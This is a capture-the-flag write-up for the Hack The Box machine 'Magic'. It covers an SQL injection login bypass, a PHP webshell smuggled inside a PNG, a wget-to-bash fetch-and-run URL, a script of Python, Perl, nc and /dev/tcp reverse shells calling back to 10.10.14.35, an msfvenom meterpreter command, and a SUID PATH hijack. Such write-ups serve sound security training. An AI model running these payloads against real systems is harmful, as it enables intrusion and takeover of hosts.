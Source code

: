 ```yaml
---
title: Magic - Hack The Box
excerpt: "Magic starts with a classic PHP insecure upload vulnerability that let us place a webshell on the target host and then we exploit a subtle webserver misconfiguration to execute the webshell (even though the file name doesn't end with a .php extension). Once we land a shell, we escalate to another user with credentials found in MySQL and priv esc to root by exploiting a path hijack vulnerability in a SUID binary."
date: 2020-08-22
image: /assets/images/htb-writeup-magic/magic_logo.png
categories:
  - hackthebox
  - infosec
tags:
  - sqli
  - upload
  - php
  - mysql
  - port forward
  - suid
  - path hijack
---
```



Magic starts with a classic PHP insecure upload vulnerability that let us place a webshell on the target host and then we exploit a subtle webserver misconfiguration to execute the webshell (even though the file name doesn't end with a .php extension). Once we land a shell, we escalate to another user with credentials found in MySQL and priv esc to root by exploiting a path hijack vulnerability in a SUID binary.

## Summary

- Bypass the login page with a simple SQL injection
- Upload a PHP webshell after bypassing the file type and extension restriction
- Find DB credentials, then find the password for user theseus in the MySQL database
- Privesc by hijacking the PATH of a SUID binary

## Portscan

![](/assets/images/htb-writeup-magic/nmap.png)

## Website and initial shell

The website is just an image gallery with a link to upload new images at the bottom.

![](/assets/images/htb-writeup-magic/website1.png)

The upload page is protected by a login form for which we don't have valid credentials.

![](/assets/images/htb-writeup-magic/login.png)

We can try some default credentials like `admin / admin` on the login page but they don't work. Next we'll try a very simple SQL injection like `' or '1'='1` in the password field. This makes the password condition return True and we're able to pass the authentication check.

![](/assets/images/htb-writeup-magic/upload.png)

The application filters out what we can upload so we're not able to upload a PHP webshell with the .php extension.

![](/assets/images/htb-writeup-magic/upload1.png)

The application also checks the content of the file so even if we rename the file to a valid image extension it fails the upload check.

![](/assets/images/htb-writeup-magic/upload3.png)

By using a valid PNG image and inserting PHP code in the middle of the file we can pass the magic bytes check and the application will think it's a valid image.

![](/assets/images/htb-writeup-magic/upload4.png)

To bypass the extension check, we can append `.png` and it will still execute the file as PHP code when we send the GET request to `/images/uploads/snow.php.png`. This happens because of a subtle misconfiguration in the htaccess configuration file. The regular expression only checks if the `.php` string is present in the filename, not that the file name actually ends with `.php`.

```
<FilesMatch ".+\.ph(p([3457s]|\-s)?|t|tml)">
SetHandler application/x-httpd-php
</FilesMatch>
<Files ~ "\.(sh|sql)">
   order deny,allow
   deny from all
```

Now that we have uploaded the webshell we have remote code execution:

![](/assets/images/htb-writeup-magic/rce.png)

With the PHP webshell, I can fetch a bash script from my box and get a reverse shell through Perl:

`http://magic.htb/images/uploads/snow.php.png?c=wget%20-O%20-%20http://10.10.14.35/shell.sh%20|%20bash`

The bash script will try various methods to get a reverse shell back to us:

```bash
if command -v python > /dev/null 2>&1; then
        python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.35",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
        exit;
fi

if command -v perl > /dev/null 2>&1; then
        perl -e 'use Socket;$i="10.10.14.35";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        exit;
fi

if command -v nc > /dev/null 2>&1; then
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.35 443 >/tmp/f
        exit;
fi

if command -v sh > /dev/null 2>&1; then
        /bin/sh -i >& /dev/tcp/10.10.14.35/443 0>&1
        exit;
fi
```

![](/assets/images/htb-writeup-magic/rce2.png)

## Privesc to user theseus

In the web application directory `/var/www/Magic`, we find a PHP script `db.php5` that contains the database configuration file for the web application with the mysql username, password and database name.

```php
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
```

The mysql CLI client isn't installed on the machine so we'll have to do port forwarding to reach port 3306 listening on localhost. There's many ways to do this, here I'll use a meterpreter shell to port forward 3306.

`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o met LHOST=10.10.14.35 LPORT=5555`

![](/assets/images/htb-writeup-magic/met1.png)

![](/assets/images/htb-writeup-magic/met2.png)

We can now log in to MySQL and we find another password in the **login** table.

![](/assets/images/htb-writeup-magic/mysql.png)

We can use the `Th3s3usW4sK1ng` to su to user `theseus`:

![](/assets/images/htb-writeup-magic/user.png)

## Privesc to root

Looking at SUID files, `/bin/sysinfo` stands out because it's not a standard Linux binary.

![](/assets/images/htb-writeup-magic/sysinfo.png)

The program just seems to be running a bunch of standard Linux programs like `free`.

![](/assets/images/htb-writeup-magic/sysinfo2.png)

By using `ltrace`, we can confirm this and see that the program uses the `popen` function to execute programs:

![](/assets/images/htb-writeup-magic/sysinfo3.png)

The program is vulnerable because we control the PATH and the program doesn't use the absolute path to execute the programs so we can execute anything we want as root. To get root I'll just create a script that sets the SUID bit on  `/bin/bash`, name it `free` and call `/bin/sysinfo` after setting the path to my current directory so it doesn't execute the real `free` program but my own script.

![](/assets/images/htb-writeup-magic/root.png)